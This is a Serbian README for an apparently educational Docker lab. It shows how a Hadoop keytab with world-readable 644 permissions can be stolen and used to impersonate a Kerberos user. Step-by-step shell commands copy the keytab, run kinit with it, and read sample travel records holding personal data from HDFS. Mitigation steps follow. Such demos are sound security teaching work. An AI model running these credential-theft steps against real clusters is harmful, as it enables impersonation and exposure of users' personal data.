

# Hadoop Kerberos Keytab Leak - Demonstracija Sigurnosnog Napada

## Pregled

Ovaj projekat demonstrira ranjivost u Hadoop klasterima koji koriste Kerberos autentifikaciju. Napad eksploatiše loše konfigurisane permisije keytab fajlova kako bi se dobio neautorizovan pristup osetljivim podacima.
Link do video demontracije -> **[Demo](https://youtu.be/EmSPwuRV07k)**

### Scenario Napada

**Sistem:** Smart Mobility platforma
**Meta:** Hadoop HDFS klaster koji skladišti podatke o istoriji putovanja korisnika  
**Ranjivost:** Kerberos keytab fajl sa nesigurnim permisijama (644 umesto 600)

---


### Česta Greška u Konfiguraciji

Kerberos je industrijski standard za autentifikaciju u distribuiranim sistemima kao što je Hadoop. Međutim, mnoge organizacije implementiraju Kerberos ali ne obezbede pravilno keytab fajlove:

- Podrazumevane permisije u deployment skriptama (`chmod 644`)
- Shared Docker volumes dostupni svim kontejnerima
- Lažan osećaj sigurnosti jer je "internal network"
- Nedostatak sigurnosnih provera nakon deploy-a

### Keytab Fajlovi

**Keytab (Key Table)** fajl je binarna datoteka koja sadrži trajne Kerberos kredencijale. Umesto da čuva lozinku, keytab sadrži kriptografske ključeve koji omogućavaju autentifikaciju bez interakcije korisnika.

Keytab je kao SSH private key - ko god ga poseduje, može se autentifikovati kao taj korisnik.

Struktura keytab fajla:
```
Principal: tester@HADOOP.LOCAL
Encryption: aes256-cts
Key Version: 2
Timestamp: 2026-02-19
```

### Permisije

Linux file permissions kontrolišu ko može pristupiti fajlu:

```bash
-rw-r--r--  (644) ← RANJIVO: Owner read/write, Group read, Others read
-rw-------  (600) ← SIGURNO:  Owner read/write, Group none,  Others none
```

**Problem:** Ako keytab ima permisiju `644`, bilo ko na sistemu (ili u Docker networku) može da:
1. Pročita keytab fajl
2. Kopira ga
3. Preuzme identitet korisnika trajno (bez lozinke!)

---

## Arhitektura

 

### Komponente Sistema

| Servis | Uloga | Opis |
|--------|-------|------|
| kerberos-server | KDC (Key Distribution Center) | Centralni server za autentifikaciju |
| namenode-1 | HDFS NameNode | Upravlja HDFS file system metapodacima |
| datanode-1/2 | HDFS DataNodes | Čuvaju stvarne podatke |
| resourcemanager-1 | YARN ResourceManager | Upravlja resursima klastera |
| nodemanager-1/2 | YARN NodeManagers | Izvršavaju poslove na čvorovima |
| edgenode-1 | Client node | Klijentski čvor za pristup klasteru |

---

## Lanac Napada

### Faza 1: Početni Pristup (Pretpostavljeno)

**Scenario:** Napadač je već dobio pristup Docker host-u ili mreži kroz:
- Kompromitovan aplikacioni kontejner (npr. Kafka, web aplikacija)
- Ranjiv servis (Log4Shell, exposovan JMX endpoint, itd.)
- Insider threat ili supply chain napad

Ova faza NIJE deo ovog demonstracijskog projekta. Pretpostavljamo da je napadač već "unutra".
---

### Faza 2: Reconnaissance (Izviđanje)

Cilje je otkriti strukturu Hadoop klastera i lokacije keytab fajlova.

```bash
# Pronađi sve Hadoop kontejnere
docker ps | grep hadoop

# Izlaz:
# namenode-1
# datanode-1
# datanode-2
# resourcemanager-1
# nodemanager-1
# nodemanager-2
# edgenode-1
```

Napadač sada zna koje servise Hadoop koristi. Sledeći korak je naći gde se čuvaju kredencijali.

```bash
# Pretraži /etc/security direktorijum za keytab fajlove
docker exec edgenode-1 find /etc/security -name "*.keytab"

# Izlaz:
# /etc/security/keytabs/hadoop/tester.keytab
```

Utvrđeno je da:
- Postoji keytab fajl za korisnika `tester`
- Lokacija: `/etc/security/keytabs/hadoop/tester.keytab`
- To je client keytab (ne service keytab), što znači da ima pristup podacima

---

### Faza 3: Otkrivanje Ranjivosti

Provera permisija keytab fajla.

```bash
# Proveri permisije fajla
docker exec edgenode-1 ls -la /etc/security/keytabs/hadoop/tester.keytab

# Izlaz:
-rw-r--r-- 1 hadoop users 79 Feb 19 16:10 tester.keytab
```

Analiza output-a:
- `-rw-r--r--` = 644 permisija
  - `rw-` (Owner: hadoop) - read + write
  - `r--` (Group: users) - read only
  - `r--` (Others: everyone) - read only

Ovo znaci da bilo ko u Docker networku (ili na host sistemu) može pročitati ovaj fajl. Kerberos keytab bi trebao da ima permisiju `600` (samo owner može čitati).

```bash
# Deployment skripta u scripts/hadoop/common-functions.sh:
create_kerberos_keytabs() {
    echo -e "\0005\0002\c" > ${KRB5_KEYTAB_PATH}
    kadmin -q "ktadd -k ${KRB5_KEYTAB_PATH} ${KRB5_PRINC}"
    klist -kt ${KRB5_KEYTAB_PATH}
    # FALI: chmod 600 ${KRB5_KEYTAB_PATH}  ← Ovo bi sprečilo napad!
}
```

Developeri su zaboravili da postave restriktivne permisije nakon kreiranja keytab-a.

---

### Faza 4: Krađa Keytab Fajla

Krađa keytab fajla sa kontejnera na host sistem.

```bash
# Kopiraj keytab fajl sa edgenode kontejnera na lokalni sistem
docker cp edgenode-1:/etc/security/keytabs/hadoop/tester.keytab ./stolen-credentials/tester.keytab

# Verifikuj da je fajl uspešno ukraden
ls -lh ./stolen-credentials/tester.keytab
# Izlaz: -rw-r--r-- 1 user user 79 Feb 19 18:10 tester.keytab
```

Napadač sada ima trajne Kerberos kredencijale izvan sistema. Čak i da admin otkrije napad i promeni lozinku, keytab i dalje radi dok se eksplicitno ne rotira (`kadmin ktadd`).

---

### Faza 5: Kerberos Autentifikacija sa Ukradenim Keytab-om

**Cilj:** Preuzeti identitet legitimnog korisnika koristeći ukradeni keytab.

Kerberos flow:
1. Klijent traži TGT (Ticket-Granting Ticket) od KDC servera
2. KDC proverava kredencijale (keytab ili password)
3. Ako su validni, KDC izdaje TGT (proof of identity)
4. Klijent koristi TGT da zatraži pristup servisima (npr. HDFS)
5. Servisi veruju TGT-u jer je potpisan od KDC-a

Napad:
```bash
# 1. Kopiraj ukradeni keytab u kontejner
docker cp ./stolen-credentials/tester.keytab edgenode-1:/tmp/stolen.keytab

# 2. Autentifikuj se koristeći ukradeni keytab
docker exec edgenode-1 bash -c "kinit -kt /tmp/stolen.keytab tester"

# 3. Proveri da li je autentifikacija uspela
docker exec edgenode-1 bash -c "klist"
```

Očekivani output:
```
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: tester@HADOOP.LOCAL

Valid starting     Expires            Service principal
02/19/26 18:00:00  02/20/26 18:00:00  krbtgt/HADOOP.LOCAL@HADOOP.LOCAL
        renew until 02/26/26 18:00:00
```

Analiza:
- `Default principal: tester@HADOOP.LOCAL` ← Napadač je sada "tester" korisnik!
- `Valid starting...Expires` ← Ticket važi 24 sata (automatski se obnavlja sa keytab-om)
- `krbtgt/HADOOP.LOCAL` ← Ovo je TGT (master ticket za pristup svim servisima)

Iz perspektive Hadoop-a, napadač **JE** legitiman korisnik `tester`. Ne postoji način da se razlikuje.

---

### Faza 6: Krađa podataka iz HDFS-a

Pristup osetljivim podacima korišćenjem autentifikovanog Kerberos principal-a.

```bash
# Listaj HDFS direktorijume (kao autentifikovani tester korisnik)
docker exec edgenode-1 bash -c "kinit -kt /tmp/stolen.keytab tester && hdfs dfs -ls /data/travels/"

# Izlaz:
# Found 1 items
# -rw-r--r--   2 tester supergroup       1234 2026-02-19 18:00 /data/travels/travels.json
```

Pročitaj sadržaj fajla:
```bash
docker exec edgenode-1 bash -c "kinit -kt /tmp/stolen.keytab tester && hdfs dfs -cat /data/travels/travels.json"
```

Ukradeni sadržaj:
```json
{
  "user_id": "user_001",
  "username": "marko.petrovic",
  "start_location": {"lat": 44.7866, "lon": 20.4489, "city": "Belgrade"},
  "end_location": {"lat": 45.2671, "lon": 19.8335, "city": "Novi Sad"},
  "timestamp": "2026-02-19T10:30:00Z",
  "payment_method": "credit_card",
  "cost_eur": 12.50
}
```

Osetljivi podaci:
- ✗ PII (Personally Identifiable Information): `username`, `user_id`
- ✗ GPS koordinate: `lat`, `lon` (precizna lokacija)
- ✗ Finansijski podaci: `payment_method`, `cost_eur`
- ✗ Bihevioralni podaci: putne navike, vremenske oznake

---

## Automatizirani Exploit

### Pokretanje Exploit Skripta

Umesto ručnog izvršavanja svih gore navedenih koraka, kreiran je Python exploit koji automatizuje ceo lanac napada:

```bash
python exploit-keytab-leak.py
```

**Funkcionalnosti:**
1. Automatski pronalazi Hadoop kontejnere
2. Detektuje ranjive keytab fajlove (644)
3. Krade keytab sa kontejnera
4. Autentifikuje se sa ukradenim keytab-om
5. Pristupa HDFS i čita osetljive podatke
6. Prikazuje detaljan izveštaj o ukradenim podacima

---

## Mitigacija


### Ispravka Keytab Permisija

Promena permisija na keytab fajlovima.

Korišćenje fix skripta:
```bash
# Automatska ispravka na svim čvorovima
bash mitigation/fix-permissions.sh
```

Ručna ispravka:
```bash
# Postavi restriktivne permisije (samo owner može čitati/pisati)
chmod 600 /etc/security/keytabs/hadoop/*.keytab

# Alternativno: read-only za još veću sigurnost (ako servis ne mora pisati)
chmod 400 /etc/security/keytabs/hadoop/*.keytab

# Verifikuj promene
ls -la /etc/security/keytabs/hadoop/
# Očekivano: -rw------- ili -r--------
```

Pre:
```
-rw-r--r-- 1 hadoop users 79 Feb 19 16:10 tester.keytab  ← RANJIVO
```

Posle:
```
-rw------- 1 hadoop users 79 Feb 19 18:30 tester.keytab  ← SIGURNO
```

### Dodatna Mera

#### Redovna rotacija Keytab Fajlova

Kerberos keytab-ovi bi trebalo regularno menjati (npr. svakih 90 dana):

```bash
# Pristupi Kerberos admin interfejsu
kadmin.local

# Generiši novi keytab (stari postaje nevažeći)
ktadd -k /etc/security/keytabs/hadoop/tester.keytab tester@HADOOP.LOCAL

# Distribuiraj novi keytab na sve čvorove
# (automatizovati sa Ansible/Puppet/Chef)

```

## Naša implementacija

Arhitektura Hadoop-a sa Kerberosom preuzeta je sa https://github.com/aminenafdou/secured-hadoop-cluster-on-docker.

---

### Pokretanje

Korak 1: Kloniranje/Navigacija
```bash
cd hadoop-kerberos-attack
```

Korak 2: Pokretanje Ranjivog Klastera
```bash
# Startuj sve servise
docker compose up -d

# Prati logove u real-time (opcionalno)
docker compose logs -f
```

Korak 3: Provera Statusa
```bash
# Proveri da li su svi kontejneri zdravi
docker ps | grep healthy

# Očekivano: 8 kontejnera u "healthy" stanju
```

Korak 4: Upload Test Podataka
```bash
# Automatski upload GDPR travel data u HDFS
bash upload-data.sh

```

Korak 5: Pokretanje Exploit-a
```bash
# Automatski exploit svih 6 faza napada
python exploit-keytab-leak.py
```

Očekivani rezultat: Uspešna eksfiltracija 6 travel records sa PII podacima.

---

### Komponente Klastera

| Kontejner | Uloga | Port(ovi) | Opis |
|-----------|-------|-----------|------|
| kerberos-server | KDC | 88, 464, 749 | Centralni Kerberos server za autentifikaciju |
| namenode-1 | HDFS NameNode | 9870 (HTTPS) | Upravlja HDFS metadata |
| datanode-1 | HDFS DataNode | 9864 | Čuva HDFS blokove podataka (replika 1) |
| datanode-2 | HDFS DataNode | 9864 | Čuva HDFS blokove podataka (replika 2) |
| resourcemanager-1 | YARN ResourceManager | 8088 (HTTPS) | Upravlja YARN resursima |
| nodemanager-1 | YARN NodeManager | 8042 | Izvršava taskove (node 1) |
| nodemanager-2 | YARN NodeManager | 8042 | Izvršava taskove (node 2) |
| edgenode-1 | Client Node | - | Klijentski čvor za interakciju sa klasterom |

---


## Demonstracija Mitigacije

Nakon uspešnog napada, demonstriraj kako ispravljanje permisija spreč sprečava eksploataciju:

```bash
# Proveri trenutne (ranjive) permisije
docker exec edgenode-1 ls -la /etc/security/keytabs/hadoop/tester.keytab
# Output: -rw-r--r-- (644) ← RANJIVO

# Primeni automatski fix
bash mitigation/fix-permissions.sh
 
 
docker exec edgenode-1 ls -la /etc/security/keytabs/hadoop/tester.keytab
# Output: -rw------- (600) ← SIGURNO
```

Rezultat: Keytab je sada zaštićen. Samo `hadoop` korisnik (owner) može čitati fajl.
